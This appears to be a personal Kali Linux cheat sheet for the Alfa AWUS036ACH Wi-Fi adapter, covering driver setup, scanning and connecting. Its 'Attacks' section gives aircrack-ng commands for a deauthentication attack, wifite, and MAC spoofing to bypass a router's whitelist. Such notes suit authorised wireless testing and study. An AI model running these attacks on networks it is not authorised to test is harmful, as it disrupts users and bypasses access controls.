 # WIFI Alfa AWUS036ACH
#Kali #Linux 

## Install driver
1. Connect the Wireless device to the Kali linux host.
2. Update package lists
```bash
sudo apt update
```
3. Install driver
```bash
sudo apt install realtek-rtl88xxau-dkms
```
4. Reboot the host


## Troubleshooting Adapter
from #ChatGPT
### Step-by-Step Fix: Install Working RTL8812AU Driver

#### 1. **Remove existing (possibly broken) DKMS driver**

```bash 
sudo apt remove realtek-rtl88xxau-dkms sudo dkms remove rtl88xxau/5.6.4.2_35491.20191025 --all
```

The version may vary — `dkms status` can show you the exact one to remove.

---

#### 2. **Install required build tools**

```bash
sudo apt update sudo apt install -y dkms git build-essential libelf-dev linux-headers-$(uname -r)
```

---

#### 3. **Clone and install the aircrack-ng driver**

```bash
git clone https://github.com/aircrack-ng/rtl8812au.git cd rtl8812au sudo make dkms_install
```

Wait for the build and install to finish (it can take a few minutes).

---

#### 4. **Load the driver manually**

```bash
sudo modprobe 88XXau
```

Check if an interface appears:

```bash
iwconfig
```


## Scan

```bash
iwlist wlan0 scan
```

---

```bash
nmcli dev wifi
```

---

```bash
sudo airodump-ng wlan0
```
By default it will scan only in 2.4Ghz

```bash
airodump-ng wlan0 --manufacturer
```
Gives you a bit more information

```bash
airodump-ng wlan0 --manufacturer --band abg
```
Scan in different bands

## Connecting to an AP via CLI

```bash
nmcli dev wifi connect <SSID> password <PSK>
```

---
Disconnect
```bash
nmcli device disconnect wlan0
```

## Attacks

### Set the wireless adapter in Monitor Mode
```bash
sudo airmon-ng check kill
```

```bash
sudo airmon-ng start wlan0
```

### reconnaissance

```bash
sudo airodump-ng <iw-name> #The name in the output of the airmon-ng command
```

```bash
sudo airodump-ng --bssid <bssid> --channel <CH-number> wlan0
```

### De-auth attack
```bash
sudo aireplay-ng -0 30 -a <client-mac-address> wlan0
```

### Wifite
```bash
sudo wifite
```

### Bypass router mac-address whitelist
1. Run the following command:
```bash
sudo airodump-ng --bssid <bssid> --band bg wlan0mon
```

2. Wait for a client to connect. When a client connects, its mac address appears. Grab the client's mac address. You will manually change your adapter's mac address with this mac address as follows:
```bash
sudo airmon-ng stop wlanmon

sudo systemctl start wpa_supplicant

sudo systemctl stop NetworkManager

sudo ip link set dev wlan0 down

sudo ip link set dev wlan0 address <whitelisted-mac-address>

sudo ip link set dev wlan0 up

sudo systemctl start NetworkManager
```


## Set wireless adapter back in managed mode
```bash
sudo airmon-ng stop wlan0
```

```bash
sudo systemctl start wpa_supplicant
```

```bash
sudo systemctl start NetworkManager
```